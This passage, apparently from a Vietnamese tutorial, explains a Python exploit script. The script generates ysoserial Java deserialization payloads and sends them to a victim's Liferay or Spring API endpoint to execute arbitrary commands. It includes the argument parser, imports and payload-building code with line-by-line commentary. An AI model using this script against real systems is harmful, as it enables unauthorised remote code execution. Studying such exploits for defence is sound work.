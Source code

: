 ```js
        print("Failed to send payload. Status code:", req.status_code)  
  
  
if __name__ == "__main__":  
    parser = argparse.ArgumentParser()  
    parser.add_argument("--url", help="URL of victim (For example: https://abc.com)", type=str)  
    parser.add_argument("--endpoint", help="/api/liferay or /api/spring", type=str)  
    parser.add_argument("--chain", help="GadgetChain you wanna use", type=str)  
    parser.add_argument("--cmd", help="Command you wanna execute", type=str)  
    args = parser.parse_args()  
  
    payload = generate_b64_payload(args.chain, args.cmd)  
    send_payload(args.url, args.endpoint, payload)
```

### **Giải thích**

##### 1. Import thư viện
```js
import requests
import os
import base64
import argparse
```

- `requests`: để gửi HTTP request.
    
- `os`: dùng để chạy câu lệnh hệ thống và xử lý file.
    
- `base64`: mã hóa/giải mã base64.
    
- `argparse`: xử lý các tham số dòng lệnh.

##### 2. Hàm tạo payload base64
```js
def generate_b64_payload(chain, command):
    payload_file = "payload.bin"
    ysoserial_path = "C:\\Users\\Admin\\ysoserial\\target\\ysoserial.jar"
    os.system(f'java -jar "{ysoserial_path}" {chain} "{command}" > {payload_file}')
```

- **`chain`**: là tên gadget chain của `ysoserial` (VD: `CommonsCollections1`, `Jdk7u21`,...).
    
- **`command`**: lệnh hệ thống bạn muốn thực thi (VD: `calc.exe`, `ls`, `touch /tmp/x`...)
    
- Dùng `os.system()` để chạy `ysoserial.jar` và xuất payload nhị phân ra file `payload.bin`.

```js
    with open(payload_file, 'rb') as f:
        raw_payload = f.read()
    os.remove(payload_file)
    return base64.b64encode(raw_payload)
```

- Đọc file nhị phân vừa tạo.
    